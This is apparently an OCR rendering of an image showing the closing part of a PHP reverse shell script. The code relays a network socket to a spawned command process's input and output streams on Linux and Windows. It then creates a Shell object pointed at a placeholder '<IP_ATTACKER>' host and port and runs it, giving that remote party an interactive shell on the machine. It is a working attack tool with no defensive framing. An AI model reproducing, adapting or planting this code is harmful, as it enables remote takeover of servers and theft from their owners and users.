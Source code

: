 ```php
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in_array($pipes[2], $streams['read'])) { $this->rw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in_array($pipes[1], $streams['read'])) { $this->rw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in_array($socket, $streams['read'])/*------*/) { $this->rw ($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes[2])) && $fstat['size']) { $this->brw($pipes[2], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes[1])) && $fstat['size']) { $this->brw($pipes[1], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
                        fclose($pipe);
                    }
                    proc_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('<IP_ATTACKER>', <PORT>);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

